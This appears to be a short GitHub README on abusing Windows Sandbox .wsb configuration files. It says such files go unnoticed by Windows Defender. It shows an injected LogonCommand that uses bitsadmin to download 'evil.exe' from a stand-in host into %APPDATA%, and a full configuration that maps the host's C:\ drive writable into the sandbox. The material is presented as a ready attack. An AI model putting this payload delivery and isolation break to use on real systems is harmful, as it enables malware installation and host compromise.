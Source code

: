 
I - How Windows Sandbox works


Windows Sandbox (WSB) will allow to create an isolated desktop environment, 
WSB configuration files are in XML format and use the .wsb extension.


![image](https://user-images.githubusercontent.com/75935486/152426360-480974ca-877d-4786-a715-237211be7558.png)



Here is an example of a configuration file: 




### Exploiting WSB configurations:


One of the first methods is to modify the `<Command>` field to execute our malicious command and access the host's system files, in addition to that WSB files are not detected by Windows Defender.

Possible command to inject:
```powershell
<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
```

Configuration compromises:
```xml
<Configuration>
   <MappedFolders>
 	<MappedFolder>
	  <HostFolder>C:\</HostFolder>
 	  <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 	  <ReadOnly>false</ReadOnly>
 	</MappedFolder>
   </MappedFolders>
   <LogonCommand>
 	<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
   </LogonCommand>
</Configuration>
```

